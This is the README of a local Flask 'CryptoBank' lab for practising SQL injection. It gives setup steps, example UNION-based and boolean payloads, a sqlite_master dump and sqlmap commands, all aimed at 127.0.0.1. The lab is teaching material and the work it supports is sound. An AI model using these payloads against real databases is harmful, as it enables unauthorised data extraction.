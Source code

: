 # CryptoBank-SQL-Injection-Lab
 Flask-based CryptoBank SQL Injection Lab to practice error-based SQLi and UNION SQLi.


📦 Prerequisites:
Python (preferably 3.6 or higher)

Visual Studio Code (VSCode) (with Python support)

Flask (Python web framework)

SQLite (for the database)



🏗️ Step 1: Install Python & Required Modules
If you don't have Python installed yet, download Python here and make sure to add Python to your PATH during installation.

Install Python

Install Flask:

Open VSCode or your terminal.

Install Flask and SQLite3 dependencies using pip:



pip install flask sqlite3

🧑‍💻 Step 2: Set Up the Project

Open VSCode.

Create a new folder for your project, e.g., sqli_lab.

Inside the folder, create a file named cryptobank_sqli_lab.py.

Paste the Flask app code from the previous responses into this file.

💾 Save Your Project
Your directory should look like this:


sqli_lab/
│
└── cryptobank_sqli_lab.py
🚀 Step 3: Run the Lab in VSCode Terminal

python cryptobank_sqli_lab.py



This will run the server on http://127.0.0.1:5000/.

You should see output like this in the terminal:




* Running on http://127.0.0.1:5000
🌐 Step 4: Open the Lab in Your Browser

Open your web browser.


Go to:

http://127.0.0.1:5000/




You should see the CryptoBank Data Lookup page with a black background.




🧑‍💻 Step 5: Testing for SQL Injection
On the CryptoBank page, you’ll see a search bar labeled "Client name".

Enter an SQL Injection payload into the search bar (like ' UNION SELECT 1, name, balance, wallet FROM clients--).


The output should display the data from the clients table:


ID: 1, Name: Alice, Balance: 3.2 BTC, Wallet: 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa

ID: 2, Name: Bob, Balance: 5.5 BTC, Wallet: 3J98t1WpEZ73CNmQviecrnyiWrnqRhWNLy

ID: 3, Name: Eve, Balance: 0.01 BTC, Wallet: bc1qw508d6qejxtdg4y5r3zarvary0c5xw7k6j28z





⚙️ Step 6: Hacking the Lab
Now you're ready to start testing for vulnerabilities and executing SQL injection payloads. Here's what you can try:

Example SQLi payloads:

Simple UNION SELECT (to get the data from the clients table):

' UNION SELECT 1, name, balance, wallet FROM clients--

Find number of columns (if you're unsure):

pgsql
Kopieren
Bearbeiten
' ORDER BY 1--        ✅
' ORDER BY 2--        ✅
' ORDER BY 3--        ✅
' ORDER BY 4--        ❌ (error!)
Blind SQLi or Advanced Payloads:

' OR 1=1--

' UNION SELECT 1, sql, 3 FROM sqlite_master-- (to dump table names)

📖 Step 7: Automate with Burp Suite or SQLmap
If you want to automate testing, you can use tools like Burp Suite or SQLmap.

Using Burp Suite:
Set up Burp Suite and configure it to proxy your browser traffic.

Intercept the request to /search?name=<input> and modify the parameter to inject SQLi payloads.

Test different payloads to see how the application reacts (e.g., error messages or data dumps).

Using SQLmap:
Install SQLmap on your machine:


git clone https://github.com/sqlmapproject/sqlmap.git

cd sqlmap

Run the following to test SQL injection:


python sqlmap.py -u "http://127.0.0.1:5000/search?name=' OR 1=1--" --batch

SQLmap will try to automate detection and exploitation of SQLi vulnerabilities.

📝 Additional Notes:
Security Best Practices: This is a vulnerable app for educational purposes. In a real-world application, always sanitize user inputs (use prepared statements, parameterized 

queries, or ORM libraries).

Next Steps: You can add more features (e.g., transaction history, admin panel) to expand the vulnerability testing.
